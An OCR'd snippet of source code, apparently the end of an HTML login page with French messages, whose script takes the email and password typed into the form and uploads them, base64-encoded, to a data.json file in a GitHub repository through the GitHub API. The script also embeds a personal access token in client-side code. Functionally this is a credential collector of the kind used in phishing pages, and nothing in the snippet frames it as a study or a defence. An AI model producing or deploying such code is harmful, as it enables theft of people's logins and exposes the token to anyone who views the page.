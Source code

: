             const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;

            const data = {
                email: email,
                password: password
            };

            try {
                const response = await fetch('https://api.github.com/repos/<TON-NOM-DUTILISATEUR>/<TON-DÉPÔT>/contents/data.json', {
                    method: 'PUT',
                    headers: {
                        'Authorization': 'Bearer <TON-TOKEN-PERSONNEL>',
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify({
                        message: "Ajout des identifiants",
                        content: btoa(JSON.stringify(data))
                    })
                });

                if (response.ok) {
                    alert('Identifiants sauvegardés sur GitHub!');
                } else {
                    alert('Erreur lors de la sauvegarde.');
                }
            } catch (error) {
                console.error('Erreur:', error);
                alert('Impossible de sauvegarder les identifiants.');
            }
        });
    </script>
</body>
</html>
